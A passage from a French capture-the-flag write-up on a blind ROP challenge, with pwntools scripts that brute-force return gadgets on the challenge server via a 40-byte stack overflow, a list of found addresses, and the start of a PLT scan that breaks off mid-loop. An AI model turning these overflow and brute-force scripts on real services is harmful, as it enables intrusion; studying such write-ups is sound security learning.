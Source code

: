 J'ai cherché tous les potentiels `ret` pour commencer, puis à partir de ces adresses, si l'on soustrait 2 on devrait tomber sur un gadget du style `pop XXX, ret` car une instruction pop fait 2 bytes : 
```py
from pwn import *

stop_gadget = 0x400668

target = [] # nos potentiels ret
for rip in range(0x400000, 0x400000+0x1000):
    print(".", end="", flush=True)
    r = remote("challenges2.france-cybersecurity-challenge.fr", 4008)

    r.recvuntil(">>> ")
    r.sendline(b"A"*40 + p64(rip) + p64(stop_gadget))
    try:
        res = r.recvall(timeout=2)
    except:
        print(hex(rip))
        break
    if b">>> " in res:
        print("\n" + hex(rip), res)
        target.append(rip)
print(target)
```
Après plusieurs minutes, on obtient une liste assez longue de gadgets :
```
[4195792, 4195797, 4195798, 4195799, 4195805, 4195806, 4195809, 4195810, 4195812, 4195813, 4195815, 4195816, 4195819, 4195820, 4195822, 4195823, 4195825, 4195827, 4195845, 4195848, 4195849, 4195850, 4195851, 4195856, 4195863, 4195865, 4195866, 4195867, 4195869, 4195874, 4195875, 4195876, 4195881, 4195882, 4195883, 4195884, 4195888, 4195889, 4195893, 4195894, 4195897, 4195899, 4195900, 4195901, 4195904, 4195920, 4195921, 4195926, 4195927, 4195928, 4195930, 4195934, 4195939, 4195944, 4196017, 4196019, 4196020, 4196021, 4196022, 4196024, 4196029, 4196034, 4196039, 4196044, 4196049, 4196054, 4196059, 4196060, 4196061, 4196064, 4196065, 4196066, 4196067, 4196069, 4196070, 4196138, 4196143, 4196155, 4196162, 4196163, 4196164, 4196165, 4196166, 4196167, 4196168, 4196175, 4196176, 4196177, 4196180, 4196184, 4196188]
```
On soustrait 2 à chacun de ces gadgets et on peut espérer tombre sur un `pop XXX; ret`.
Maintenant que l'on a trouvé un moyen de contrôler un argument d'une fonction il faut trouver cette fonction qui nous intéresse.
Un `printf` ou un `puts` nous permettrait de lire la mémoire à une adresse quelconque et ainsi leaker tout le binaire afin que cette blind ROP se transforme en ROP.
```py
from pwn import *

stop_gadget = 0x400668

maybe_ret = [4195792, 4195797, 4195798, 4195799, 4195805, 4195806, 4195809, 4195810, 4195812, 4195813, 4195815, 4195816, 4195819, 4195820, 4195822, 4195823, 4195825, 4195827, 4195845, 4195848, 4195849, 4195850, 4195851, 4195856, 4195863, 4195865, 4195866, 4195867, 4195869, 4195874, 4195875, 4195876, 4195881, 4195882, 4195883, 4195884, 4195888, 4195889, 4195893, 4195894, 4195897, 4195899, 4195900, 4195901, 4195904, 4195920, 4195921, 4195926, 4195927, 4195928, 4195930, 4195934, 4195939, 4195944, 4196017, 4196019, 4196020, 4196021, 4196022, 4196024, 4196029, 4196034, 4196039, 4196044, 4196049, 4196054, 4196059, 4196060, 4196061, 4196064, 4196065, 4196066, 4196067, 4196069, 4196070, 4196138, 4196143, 4196155, 4196162, 4196163, 4196164, 4196165, 4196166, 4196167, 4196168, 4196175, 4196176, 4196177, 4196180, 4196184, 4196188]

for ret in maybe_ret:
    for rip in range(0x400700, 0x401200): # En prenant un autre binaire x86-64, j'ai supposé que l'adresse de la PLT se trouvait entre 0x400700 et 0x401200.
        print(".", end="", flush=True)
        r = remote("challenges2.france-cybersecurity-challenge.fr", 4008)

        r.recvuntil(">>> ")

```